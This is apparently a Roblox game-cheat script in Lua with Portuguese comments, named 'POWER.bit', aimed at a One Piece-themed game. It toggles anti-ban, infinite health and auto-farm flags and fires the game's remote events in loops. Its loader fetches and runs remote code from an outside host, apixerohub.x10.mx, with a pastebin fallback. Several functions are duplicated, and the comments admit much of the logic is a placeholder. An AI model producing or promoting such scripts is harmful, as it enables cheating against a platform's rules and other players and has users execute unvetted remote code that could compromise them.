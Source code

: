 # SCRIPT-POWER.bit
-- Configurações Iniciais
getgenv().Team = "Marines" -- Escolha inicial: "Marines" ou "Pirates"
getgenv().Hide_Menu = false
getgenv().Anti_Ban = true
getgenv().Infinite_Health = true
getgenv().Infinite_Stamina = true
getgenv().Auto_Farm = false
getgenv().Auto_Quest = false
getgenv().Fast_Attack = false
getgenv().Auto_Haki = false
getgenv().Devil_Fruit_Notifier = false
getgenv().Auto_Chest = false
getgenv().Auto_Boss = false
getgenv().Auto_AFK = true
getgenv().Collect_Items = true -- Nova função de coletar itens
getgenv().Buy_Items = true -- Nova função de comprar itens
getgenv().Raid = false -- Nova função de Raid
getgenv().Buy_Fruits = true -- Compra de frutas automáticas
getgenv().Buy_Guns_Swords = true -- Compra de Armas e Espadas
getgenv().Combat_Style_Automatic = true -- Estilos de luta automáticos
getgenv().Haki_Observation_V2 = true -- Haki da Observação V2 Automático
getgenv().TTK = true -- Função de TTK (Time to Kill)

-- Funções Utilitárias

-- Coletar itens automaticamente
local function collectItems()
    spawn(function()
        while getgenv().Collect_Items do
            for _, item in pairs(game.Workspace:GetChildren()) do
                if item:IsA("Model") and item:FindFirstChild("HumanoidRootPart") then
                    -- Identificar e coletar itens específicos (exemplo: frutas, armas, etc.)
                    if item.Name == "Fruit" or item.Name == "Katakuri" or item.Name == "Sword" then
                        -- Coletar o item
                        item:Destroy()
                    end
                end
            end
            wait(1)
        end
    end)
end

-- Comprar itens automaticamente
local function buyItems()
    spawn(function()
        while getgenv().Buy_Items do
            -- Exemplo de como comprar itens (a lógica de compra dependeria do jogo)
            -- Aqui você deve adaptar com a lógica do seu jogo
            if game.Players.LocalPlayer:FindFirstChild("Money") then
                local money = game.Players.LocalPlayer.Money.Value
                -- Exemplo para comprar uma espada ou arma
                if money >= 1000 then
                    -- Comprar espada (adapte para o item que deseja)
                    game.ReplicatedStorage:WaitForChild("Shop"):FireServer("BuyItem", "Sword")
                end
            end
            wait(2)
        end
    end)
end

-- Função de Raid Automática
local function autoRaid()
    spawn(function()
        while getgenv().Raid do
            -- Logica para entrar e completar Raids automaticamente
            -- Este é um exemplo genérico que você deve adaptar conforme a estrutura do seu jogo
            local raid = game.Workspace:FindFirstChild("Raid")
            if raid then
                -- Entrar na raid automaticamente
                game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = raid.CFrame
                -- Iniciar a raid
                game.ReplicatedStorage.Raid:FireServer("Start")
            end
            wait(5)
        end
    end)
end

-- Função de comprar Frutas do Diabo
local function buyDevilFruits()
    spawn(function()
        while getgenv().Buy_Fruits do
            -- Lógica para comprar frutas (adapte conforme a mecânica do jogo)
            if game.Players.LocalPlayer:FindFirstChild("Money") then
                local money = game.Players.LocalPlayer.Money.Value
                if money >= 5000 then
                    -- Comprar fruta automaticamente (substitua com as frutas do jogo)
                    game.ReplicatedStorage:WaitForChild("Shop"):FireServer("BuyItem", "DevilFruit")
                end
            end
            wait(5)
        end
    end)
end

-- Comprar Armas e Espadas
local function buyGunsAndSwords()
    spawn(function()
        while getgenv().Buy_Guns_Swords do
            -- Lógica para comprar armas e espadas
            if game.Players.LocalPlayer:FindFirstChild("Money") then
                local money = game.Players.LocalPlayer.Money.Value
                if money >= 2000 then
                    -- Comprar Espada ou Arma
                    game.ReplicatedStorage:WaitForChild("Shop"):FireServer("BuyItem", "Gun")
                end
            end
            wait(5)
        end
    end)
end

-- Função para Estilos de Luta Automáticos
local function autoCombatStyle()
    spawn(function()
        while getgenv().Combat_Style_Automatic do
            -- Exemplo para usar um estilo de luta específico automaticamente
            local player = game.Players.LocalPlayer
            if player.Character and player.Character:FindFirstChild("Humanoid") then
                -- Usar Estilo de Luta
                game.ReplicatedStorage:WaitForChild("CombatStyle"):FireServer("Activate", "SwordStyle")
            end
            wait(2)
        end
    end)
end

-- Função de Haki da Observação V2 Automático
local function autoHakiObservationV2()
    spawn(function()
        while getgenv().Haki_Observation_V2 do
            -- Ativar Haki da Observação V2
            local player = game.Players.LocalPlayer
            if player.Character and player.Character:FindFirstChild("Humanoid") then
                -- Lógica para ativar o Haki da Observação V2
                game.ReplicatedStorage:WaitForChild("Haki"):FireServer("Activate", "ObservationV2")
            end
            wait(5)
        end
    end)
end

-- Função TTK (Time to Kill)
local function TTK()
    spawn(function()
        while getgenv().TTK do
            -- Lógica para otimizar o tempo de eliminação (ex: aumentando a velocidade de ataque ou dano)
            local player = game.Players.LocalPlayer
            if player.Character and player.Character:FindFirstChild("Humanoid") then
                -- Exemplo de ataque mais rápido
                player.Character.Humanoid.WalkSpeed = 100
            end
            wait(1)
        end
    end)
end

-- Carregar o script principal com fallback
local function loadScript()
    local success, err = pcall(function()
        -- Link principal
        loadstring(game:HttpGet("https://apixerohub.x10.mx/main.lua"))()
    end)

    if not success then
        warn("[POWER.bit]: Erro ao carregar o script principal. Tentando fallback...")
        warn(err)
        
        -- Link de fallback
        local fallback_success, fallback_err = pcall(function()
            loadstring(game:HttpGet("https://pastebin.com/raw/fallbackScriptLink"))()
        end)

        if not fallback_success then
            warn("[POWER.bit]: Falha ao carregar o script de fallback. Verifique sua conexão.")
            warn(fallback_err)
        else
            print("[POWER.bit]: Script de fallback carregado com sucesso!")
        end
    else
        print("[POWER.bit]: Script principal carregado com sucesso!")
    end
end

-- Função de Anti-AFK
local function antiAFK()
    spawn(function()
        while getgenv().Auto_AFK do
            game:GetService("Players").LocalPlayer.Idled:connect(function()
                game:GetService("VirtualUser"):ClickButton2(Vector2.new())
            end)
            wait(10)
        end
    end)
end

-- Função de coleta de itens
local function collectItems()
    spawn(function()
        while getgenv().Collect_Items do
            for _, item in pairs(game.Workspace:GetChildren()) do
                if item:IsA("Model") and item:FindFirstChild("HumanoidRootPart") then
                    -- Identificar e coletar itens específicos (exemplo: frutas, armas, etc.)
                    if item.Name == "Fruit" or item.Name == "Katakuri" or item.Name == "Sword" then
                        -- Coletar o item
                        item:Destroy()
                    end
                end
            end
            wait(1)
        end
    end)
end

-- Função de compra de itens
local function buyItems()
    spawn(function()
        while getgenv().Buy_Items do
            -- Exemplo de como comprar itens (a lógica de compra dependeria do jogo)
            if game.Players.LocalPlayer:FindFirstChild("Money") then
                local money = game.Players.LocalPlayer.Money.Value
                -- Exemplo para comprar uma espada ou arma
                if money >= 1000 then
                    -- Comprar espada (adapte para o item que deseja)
                    game.ReplicatedStorage:WaitForChild("Shop"):FireServer("BuyItem", "Sword")
                end
            end
            wait(2)
        end
    end)
end

-- Função de raid automática
local function autoRaid()
    spawn(function()
        while getgenv().Raid do
            -- Lógica para entrar e completar Raids automaticamente
            local raid = game.Workspace:FindFirstChild("Raid")
            if raid then
                game.Players.LocalPlayer.Character.HumanoidRootPart.CFrame = raid.CFrame
                game.ReplicatedStorage.Raid:FireServer("Start")
            end
            wait(5)
        end
    end)
end

-- Inicializar todas as funções automáticas
collectItems()
buyItems()
autoRaid()
buyDevilFruits()
buyGunsAndSwords()
autoCombatStyle()
autoHakiObservationV2()
TTK()
antiAFK()
loadScript()

print("[POWER.bit]: Script carregado com sucesso e funcionalidades automáticas ativadas!")
